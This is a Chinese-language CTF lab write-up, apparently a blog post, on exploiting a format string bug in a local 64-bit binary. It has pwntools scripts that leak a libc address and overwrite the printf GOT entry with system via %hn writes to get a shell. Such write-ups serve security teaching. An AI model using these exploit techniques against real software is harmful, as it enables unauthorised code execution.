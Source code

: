 ```yaml
---
layout:     post   				    # 使用的布局（不需要改）
title:      格式化字符串漏洞实验报告 				# 标题 
subtitle:   Hello Eutopia's Blog #副标题
date:       2023-10-12 				# 时间
author:     Eutopia 						# 作者
header-img: img/post-bg-9.jpg 	#这篇文章标题背景图片
catalog: true 						# 是否归档
tags:								#标签
    - 格式化字符串
    - PWN
    - CTF
---
```

# 格式化字符串漏洞实验报告

## 考点

- 格式化字符串漏洞利用
- 对64程序与32位程序区别的理解
- 覆写got表地址

## 实验过程

- 使用checksec, file, ldd等命令查看程序信息：

![基本信息](/img/posts/2023-10-12-格式化漏洞利用/基本信息.png)

​		可见程序为64位，启动了DEP保护，动态链接。

- 使用patchelf修改libc文件。

![patchelf](/img/posts/2023-10-12-格式化漏洞利用/patchelf.png)

- 使用ida库打开程序，反编译。

![main](/img/posts/2023-10-12-格式化漏洞利用/main.png)

​		可以发现`printf(buf)`代码存在格式化字符串漏洞。

- 构造python脚本进行gdb调试：

```python
from pwn import *

context(arch="amd64", log_level="debug")
p = process("./format_string")

payload = flat(b"%1$p")
gdb.attach(p, "b *0x4006AD")
p.sendlineafter("Format String\n", payload)

p.interactive()
```

​		`%1$p`表示输出第一个参数的指针形式输出![gdb](/img/posts/2023-10-12-格式化漏洞利用/gdb.png)

​		查看栈中情况，可以发现`_libc_stat_main+240`地址，计算得到该地址为第26个参数（64位程序需要注意前6个参数会在寄存器中）。因此要泄漏`libc`地址，可以利用`%25$p`。

- 获取libc基址后，可以获取libc中的`system`函数地址。然后可以通过修改printf函数got表的方式来使程序在执行`printf`函数转去执行`system`函数，并且以输入`"/bin/sh"`字符串达到执行函数`system("/bin/sh")`的目的。
- 由于64位程序中函数地址高位为`\x00`，因此会导致printf函数输出时截断，所以构造payload时printf函数地址需要放在末尾，然后由于64位地址如果使用`%n`直接对整体进行修改的话，会造成printf输出字符数目过大，耗时且易崩溃。所以考虑使用`%hn`来进行两字节的修改。
- 构造payload，根据system函数的地址分两次修改。

```python
# flag: tmp1 < tmp2时为True
# tmp1: 高两字节， tmp2: 低两字节
if flag == True:
    fmt = flat(b'%', tmp1, b'c', b'%10$hn', b'%', tmp2, b'c%11$hn')
    fmt = fmt.ljust(32, b'a')
    payload = flat(fmt, printf_got+2, printf_got)
else:
    fmt = flat(b'%', tmp2, b'c', b'%11$hn', b'%', tmp1, b'c%10$hn')
    fmt = fmt.ljust(32, b'a')
    payload = flat(fmt, printf_got, printf_got+2)
```

​		发送payload后栈情况：

![payload-gdb](/img/posts/2023-10-12-格式化漏洞利用/payload-gdb.png)

​		执行printf函数后，可见printf函数got表地址已被修改为system函数地址，然后输入`"/bin/sh"`字符串，即可返回shell。

![payload-gdb-1](paylaod-gdb-1.png)

- 最终python脚本如下：

```python
from pwn import *

context(arch="amd64", log_level="debug")
p = process("./format_string")

# 获取read函数在libc中偏移
libc = ELF("./libc-2.23.so")
system_offset = libc.symbols['system']

# 泄漏libc地址
payload = flat(b'%25$p')
gdb.attach(p, 'b *0x4006AD')
p.sendlineafter("Format String\n", payload)
libc_addr = int(p.recvline(), 16) - 0x20840  # 0x20840
success(hex(libc_addr))

system_addr = libc_addr + system_offset
print(hex(system_addr))

flag = True
tmp = str(hex(system_addr))
print(tmp)
tmp1 = tmp[6:10]
tmp2 = tmp[10:14]
tmp1 = int(tmp1, 16)
tmp2 = int(tmp2, 16)
if tmp1 > tmp2:
    flag = False
    tmp1 = tmp1 - tmp2
else:
    flag = True
    tmp2 = tmp2 - tmp1
print(tmp1)
print(tmp2)
tmp1 = str(tmp1)
tmp2 = str(tmp2)


# 修改got表
elf = ELF("./format_string")
printf_got = elf.got["printf"]
print(printf_got)
if flag == True:
    fmt = flat(b'%', tmp1, b'c', b'%10$hn', b'%', tmp2, b'c%11$hn')
    fmt = fmt.ljust(32, b'a')
    payload = flat(fmt, printf_got+2, printf_got)
else:
    fmt = flat(b'%', tmp2, b'c', b'%11$hn', b'%', tmp1, b'c%10$hn')
    fmt = fmt.ljust(32, b'a')
    payload = flat(fmt, printf_got, printf_got+2)

p.send(payload)

# 发送"/bin/sh"字符串
payload = flat(b"/bin/sh")
p.send(payload)

p.interactive()
```



## 结果

![result](/img/posts/2023-10-12-格式化漏洞利用/result.png)
